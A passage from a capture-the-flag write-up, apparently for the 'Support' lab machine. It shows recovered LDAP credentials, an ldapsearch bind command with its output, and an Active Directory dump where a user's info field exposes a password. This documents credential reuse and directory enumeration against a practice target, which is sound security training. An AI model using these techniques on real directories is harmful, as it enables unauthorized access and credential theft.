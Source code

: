 To conclude we now have LDAP credentials that we can use to gain information from AD like groups, users, hosts, and much more. 

```
support\ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
<br />
<br />

### LDAP Enumeration

`ldapsearch` is the go-to tool for querying LDAP, and since we have creds. We can search for the `namingcontexts` to identify the actual domain to query for potential users. Specify the `-D` flag to perform a successful bind with the credentials to avoid any errors.

```sh
$ ldapsearch -H ldap://support.htb -x -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: support\ldap namingcontexts 
#

#
dn:
ufn:
namingcontexts: DC=support,DC=htb
namingcontexts: CN=Configuration,DC=support,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=support,DC=htb
namingcontexts: DC=DomainDnsZones,DC=support,DC=htb
namingcontexts: DC=ForestDnsZones,DC=support,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Next we can dump the whole AD information if we query the `DC=support,DC=htb` domain, which you will find that there is a Common Name (CN) called `Users`. There is a user called `support` with an additional attribute called `info` that appears to be that account's password string. 

"support" user ldap information with a password
```sh
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220911130144.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
```